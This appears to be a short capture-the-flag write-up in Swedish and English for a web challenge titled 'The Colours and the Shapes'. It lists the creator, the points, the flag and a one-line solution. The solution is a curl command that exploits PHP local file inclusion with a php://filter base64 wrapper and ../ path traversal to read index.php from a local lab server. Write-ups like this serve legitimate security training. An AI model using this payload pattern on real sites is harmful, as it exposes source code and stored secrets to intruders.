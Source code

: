 # Web: The Colours and the Shapes

- **Skapare:** Calle Svensson
- **Poäng:** 200
- **Antal lösningar:** 8

## Beskrivning 

Look I made a super pretty website about my faavourite interests.
Go have a look at: URL.

## Flag

`SSM{D0nt_wann4_be_your_monk3y_wr3nch}`

## Lösning

```sh
curl 'http://localhost:31337/img/gallery/view.php?p=php://filter/convert.base64-encode/resource=../../index.php' | base64 -d | head -n2
```
